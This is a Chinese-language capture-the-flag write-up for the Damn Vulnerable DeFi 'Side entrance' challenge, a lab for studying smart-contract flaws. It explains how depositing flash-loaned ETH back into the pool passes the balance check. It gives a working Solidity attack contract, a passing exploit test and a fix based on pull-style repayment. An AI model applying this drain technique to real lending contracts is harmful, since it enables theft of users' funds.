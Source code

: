 # 🚪 Challenge #4 - Side entrance 側門

![https://i.imgur.com/ElYSFA7.png](https://i.imgur.com/ElYSFA7.png)

A surprisingly simple lending pool allows anyone to deposit ETH, and withdraw it at any point in time.

This very simple lending pool has 1000 ETH in balance already, and is offering free flash loans using the deposited ETH to promote their system.

You must take all ETH from the lending pool.

- [See the contracts](https://github.com/tinchoabbate/damn-vulnerable-defi/tree/v2.2.0/contracts/side-entrance)
- [Complete the challenge](https://github.com/tinchoabbate/damn-vulnerable-defi/blob/v2.2.0/test/side-entrance/side-entrance.challenge.js)

題目說有一個借貸池提供免費 [[FlashLoan]] 借貸的服務，我們的目標是將池子裡的 1000 ETH 歸給 attacker

## 合約研讀：尋找攻擊點

- 首先觀察一下flashLoan 的 function，會發現基本上我們只要想辦法讓 Balance 維持一樣就可以不用還錢，那我們有辦法把錢一樣留在池子裡面，但是改變所有權嗎？

```solidity
    function flashLoan(uint256 amount) external {
        uint256 balanceBefore = address(this).balance;
        require(balanceBefore >= amount, "Not enough ETH in balance");
        // ✨ 可以讓外部用借來的錢做任何事
        IFlashLoanEtherReceiver(msg.sender).execute{value: amount}();

        require( //  可以想辦法讓餘額不變，就可以不用還錢 ✨
            address(this).balance >= balanceBefore,
            "Flash loan hasn't been paid back"
        );
    }
```

- 再往下看可以看到有提款、存款的功能，是我們可以改變餘額、轉錢給自己的入口。所以我們可以使用合約發動攻擊，在 `IFlashLoanEtherReceiver(msg.sender).execute{value: amount}();` 當中存錢到 `SideEntranceLenderPool` 當中，這樣餘額不會變，且 balance 的所有權也可以變成我們自己。

```solidity
    function deposit() external payable {
        balances[msg.sender] += msg.value; //  ✨ 可以改變餘額
    }

    function withdraw() external {
        uint256 amountToWithdraw = balances[msg.sender];
        balances[msg.sender] = 0;
        payable(msg.sender).sendValue(amountToWithdraw); //  ✨ 可以轉錢給自己
    }
```

## 實現攻擊

### 實現 IFlashLoanEtherReceiver 攻擊合約

- 寫一個實現 IFlashLoanEtherReceiver 的合約
- 實現 execute 中 deposit 給 pool，讓 pool 以為合約餘額沒有變就是已還款
- 實現可以收款、提款的功能

```mermaid
sequenceDiagram
  actor Attacker
  autonumber
    Attacker->>ReceiverAttackerSideEntrance: deploy
    Attacker->>ReceiverAttackerSideEntrance: attack
  rect rgb(191, 223, 255)
  note right of ReceiverAttackerSideEntrance: Attack Flow
  ReceiverAttackerSideEntrance->>SideEntranceLenderPool:flashLoan
  SideEntranceLenderPool--) ReceiverAttackerSideEntrance: ecucute
  ReceiverAttackerSideEntrance--) SideEntranceLenderPool: deposit(代替還款)
  SideEntranceLenderPool--)SideEntranceLenderPool: OK, 檢查餘額沒變
  end
  rect rgb(191, 223, 200)
  note right of ReceiverAttackerSideEntrance: Withdraw Flow
    Attacker->>ReceiverAttackerSideEntrance: withdraw
    ReceiverAttackerSideEntrance->>SideEntranceLenderPool: withdraw
  SideEntranceLenderPool-->>ReceiverAttackerSideEntrance: value
  ReceiverAttackerSideEntrance-->>Attacker: value
  end
```

```solidity
// SPDX-License-Identifier: MIT

pragma solidity ^0.8.0;
import "./SideEntranceLenderPool.sol";
import "@openzeppelin/contracts/utils/Address.sol";

/**
 * @title SideEntranceLenderPool
 * @author Damn Vulnerable DeFi (https://damnvulnerabledefi.xyz)
 */
contract ReceiverAttackerSideEntrance is IFlashLoanEtherReceiver {
    SideEntranceLenderPool pool;
    using Address for address payable;
    address owner;

    constructor(address _pool) {
        owner = msg.sender;
        pool = SideEntranceLenderPool(_pool);
    }

    function execute() external payable override {
        pool.deposit{value: 1000 ether}();
    }

    function attack(uint256 amount) external {
        pool.flashLoan(amount);
    }

    function withdraw(uint amount) external {
        pool.withdraw();
        require(owner == msg.sender);
        payable(msg.sender).sendValue(amount);
    }

    fallback() external payable {}
}

```

### 滿足測試

```jsx
    it('Exploit', async function () {
        const receiverAttacker = await (await ethers.getContractFactory('ReceiverAttackerSideEntrance', attacker)).deploy(this.pool.address);
        await receiverAttacker.attack( ETHER_IN_POOL );
        await receiverAttacker.withdraw(ETHER_IN_POOL);
    });
```

```
  [Challenge] Side entrance
    ✓ Exploit (131ms)

  1 passing (1s)

✨  Done in 4.92s.
```

## 🔧 總結 & 修改方式

[操弄依變因攻擊](https://www.notion.so/2a0407b1936b4540a1b45c930e346336)

- **弱點：** 這題屬於 [[操弄依變因攻擊]]，
- **攻擊：** 通過把 pool 在 [[FlashLoan]] 借給我們的錢在重新存回 pool 通過了 pool 本身的 `address(this).balance >= balanceBefore` 檢查
- **改進：** 那要怎麼確保有還錢？而且還錢的一定是使用者？AAVE 的 FlashLoan 已經提供給我們解法，就是讓借貸者先 approve 然後 pool 合約本身做 transferFrom，這樣就可以確保，我們一定從借貸方抽取了借貸費用。 AAVE 有直接在[文件](https://docs.aave.com/developers/guides/flash-loans#completing-the-flash-loan)當中說明 ： > You **do not** need to transfer the owed amount back to the `Pool`. The funds will be automatically *pulled* at the conclusion of your operation.

借貸者需事先 approve 款項，AAVE V3 使用safeTransferFrom向使用者抽取費用，或者使用者也可以[使用抵押品來還錢](https://github.com/aave/aave-v3-core/blob/master/contracts/protocol/libraries/logic/FlashLoanLogic.sol#L132)。

## 4.4 完整合約

```solidity
// SPDX-License-Identifier: MIT

pragma solidity ^0.8.0;
import "@openzeppelin/contracts/utils/Address.sol";

interface IFlashLoanEtherReceiver {
    function execute() external payable;
}

/**
 * @title SideEntranceLenderPool
 * @author Damn Vulnerable DeFi (https://damnvulnerabledefi.xyz)
 */
contract SideEntranceLenderPool {
    using Address for address payable;

    mapping(address => uint256) private balances;

    function deposit() external payable {
        balances[msg.sender] += msg.value; //  ✨ 可以改變餘額
    }

    function withdraw() external {
        uint256 amountToWithdraw = balances[msg.sender];
        balances[msg.sender] = 0;
        payable(msg.sender).sendValue(amountToWithdraw); //  ✨ 可以轉錢給自己
    }

    function flashLoan(uint256 amount) external {
        uint256 balanceBefore = address(this).balance;
        require(balanceBefore >= amount, "Not enough ETH in balance");
        // ✨ 可以讓外部用借來的錢做任何事
        IFlashLoanEtherReceiver(msg.sender).execute{value: amount}();

        require( //  可以想辦法讓餘額不變，就可以不用還錢 ✨
            address(this).balance >= balanceBefore,
            "Flash loan hasn't been paid back"
        );
    }
}

```
